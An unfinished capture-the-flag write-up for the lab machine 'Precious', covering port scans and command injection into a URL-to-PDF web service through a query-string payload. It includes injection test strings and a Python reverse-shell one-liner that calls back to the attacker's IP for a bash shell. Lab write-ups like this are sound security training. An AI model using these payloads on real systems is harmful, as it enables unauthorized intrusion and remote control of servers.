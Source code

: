 # Precious [In Progress]

## Service and Port Enumeration

Let's start with a basic port scan (no ping)
`nmap -sS -Pn 10.10.11.189`

Nmap gives us:
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Run NSE scripts to find domain name?
```
└─$ sudo nmap -sV -sC -Pn 10.10.11.189
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-08 22:49 EST
Nmap scan report for 10.10.11.189
Host is up (0.0055s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The IP resolves to `http://precious.htb/`

We add this to our `/etc/hosts` file, and plug the hostname into the browser

---

## The webpage

The main functionality of the page is to submit data entered into a text field - sent as an HTTP POST request

Intercepting the request, we see:
```
POST / HTTP/1.1
Host: precious.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Origin: http://precious.htb
DNT: 1
Connection: keep-alive
Referer: http://precious.htb/
Upgrade-Insecure-Requests: 1

url=
```

So, we supply a url and it will print a pdf with its contents
- This seems like an injection type of vuln
- I could have it, for instance, print the contents of my current directory
    - All i'd need to do is set up a network listener

So let's prop up a python web server: `python3 -m http.server 80`
```
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Then we inject our IP address into the text field
```
http://10.10.14.37
```

We get a PDF in a new tab with the contents of our directory!
- So, we can connect to our url, and add a `name` query string 
    - We can delimit a user input `fragment` with `#`
    - We can encapsulate a user input `fragment` with `{<user_input>}`
    - We surround our 'payload' string with `''`'s, and the command itself with tick-marks 
    - Full info on query string syntax is documented in [RFC3986](https://www.rfc-editor.org/rfc/rfc3986)

### Demonstration:

When we try 'http://10.10.14.37/?name=#{`echo hello`}', we get the following:
```
Directory listing for /?name=#{`echo hello`}
```

This is not the output we were hoping for, let's wrap it in single quotes

When we try '`echo hello`', we get a URL-encoded string:
```
10.10.11.189 - - [17/Dec/2022 11:57:35] "GET /?name=%23%7B'%60echo%20hello%60'%7D HTTP/1.1" 200 -
```
And
```
Directory listing for /?name=#{'`echo hello`'}
```

Also not what we were looking for!
- If we purposely inject a url-encoded character (like a space - `%20`)
    - Will that trick the parser into running the input?

Running "http://10.10.14.37/?name=#{'%20`echo hello`'}", we get:
```
10.10.11.189 - - [17/Dec/2022 12:29:01] "GET /?name= HTTP/1.1" 200 -
```
And
```
Directory listing for /?name=
```

So the instruction looks as though it were processed, but we don't know for sure

Let's try a command that we can more easily verify:
``` 
http://10.10.14.37/?name=#{'%20`sleep 5`'}
```

We see the browser sleep for 5 seconds and then post the HTTP response
- So we know that our commands in this format are working 
- Let's try to get a reverse shell

When running this as input:
```
http://10.10.14.37/?name=#{'%20`python3 -c 'import pty,socket;s=socket.socket();s.connect(("10.10.14.37", 80));pty.spawn("/bin/bash")'`'}
```

Our session hangs - which is also a good sign! But we're not seeing a shell spawn:
```
10.10.11.189 - - [17/Dec/2022 13:48:30] "GET /?name= HTTP/1.1" 200 -
```


